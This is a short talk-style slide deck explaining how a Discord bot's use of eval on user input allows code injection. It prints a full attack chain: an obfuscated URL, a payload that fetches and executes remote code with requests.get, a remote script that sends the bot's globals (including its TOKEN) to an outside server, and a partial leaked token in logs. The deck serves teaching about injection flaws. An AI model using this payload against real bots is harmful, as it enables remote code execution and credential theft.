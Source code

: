 # How to Trigger Timmy (Discord Bots)
Robert Chen

---
<!-- page_number: true -->
# Context
Discord bots are cool.
Let's make one to report on snow days? 

---
# Problem
Bad programming ethic. 

```
snowman_count = round(eval(between))
```

Eval is evil. 
The user controls the `between` variable. 

---
# Eval?
>imports do nto work
stop trying to do that lol
-- <cite>Timothy Z.</cite>

They don't work with eval. 

---
# Exec
> Eval accepts only a single expression, exec can take a code block that has Python statements.

It's a lot more powerful

---
# Example
```
exec("""
some_code_here
""")
```

---
# Attack
We can execute any python program we want. 
1. Obfuscate url so it's not obvious what we're doing.
2. Use `requests.get` to load file from remote server.
3. Execute remote file. 

This lets us run arbitrary code with little suspicion.

---
# Obfuscation
Obfuscate
```
[ord(i) + 1 for i in "http://test.robertchen.cc/asdf.txt"]
```
Deobfuscate
```
url = "".join([chr(i -1) for i in [...]])
```

---
# Full Payload
```
give me exec("""
url = "".join([chr(i -1) for i in [...]])
code = requests.get(url).content
exec(code)
""") snowmen
```

---
# Remote Server 
1. Use `globals()` to get all global variables. 
2. Send the `TOKEN` value to remote server.
3. Create a new bot with the `TOKEN`. 
4. ...
5. Profit??

---
# asdf.txt
```
requests.get("https://personal.server" + str(globals()))
```
Then we pick through the logs manually.

---
# Logs
```
...%20'TOKEN':%20'NTQ0NzA1MTg4NDY5MTQ1NjM...
```
Note that it's url encoded.
`%20` = `' '`

---
# Profit?
